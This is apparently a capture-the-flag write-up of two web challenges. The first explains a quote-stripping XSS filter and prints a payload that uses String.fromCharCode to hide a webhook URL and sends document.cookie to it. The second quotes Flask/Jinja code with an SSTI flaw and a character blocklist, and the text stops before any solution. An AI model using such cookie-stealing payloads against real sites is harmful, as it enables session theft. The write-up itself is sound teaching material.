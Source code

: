 # web
---
## b01ler-ads - Easy
108 solves - 302 points
### Challenge Description
{: .no_toc }
`Ads Ads Ads! Cheap too! You want an Ad on our site? Just let us know!`

The challenge is a simple `XSS` challenge. The source code is provided, but the important part is below.

```js
const content = req.body.content.replace("'", '').replace('"', '').replace("`", '');
```

The above code sanitizes the input by removing single quotes, double quotes, and backticks. This is a common mistake in web development, as it is easy to forget about other ways to escape strings.

We can construct a string using `String.fromCharCode` to bypass the filter.

```html
<script>fetch(String.fromCharCode(104,116,116,112,115,58,47,47,119,101,98,104,111,111,107,46,115,105,116,101,47,55,98,54,51,102,55,53,97,45,57,52,55,53,45,52,49,56,56,45,98,51,56,57,45,51,54,53,99,56,102,57,100,48,102,100,97,47,63,102,108,97,103,61)%2bdocument.cookie)</script>
```

{: .note }
The challenge actually had a minor flaw as `.replace` only replaces the first instance of the character. This means that we can bypass the filter by appending ``` '"` ``` to the beginning of our payload

## pwnhub - Medium
15 solves - 481 points

### Challenge Description
{: .no_toc }
`A fun place to share all your exploits with others! I'm still working on developing some parts though`

The challenge is a `jinja ssti` with pretty heavy restrictions. The source code is provided, but the important part is below.

```python
app.secret_key = hex(getrandbits(20))
INVALID = ["{{", "}}", ".", "_", "[", "]","\\", "x"]
```
```python
@app.post('/createpost', endpoint='createpost_post')
@login_required
def createpost():
    not None
    content = request.form.get('content')
    post_id = sha256((current_user.name+content).encode()).hexdigest()
    if any(char in content for char in INVALID):
        return render_template_string(f'1{"".join("33" for _ in range(len(content)))}7 detected' )
    current_user.posts.append({str(post_id): content})
    if len(content) > 20:
        return render_template('createpost.html', message=None, error='Content too long!', post=None)
    return render_template('createpost.html', message=f'Post successfully created, view it at /view/{post_id}', error=None)
```
```python
@app.get('/view/<id>')
```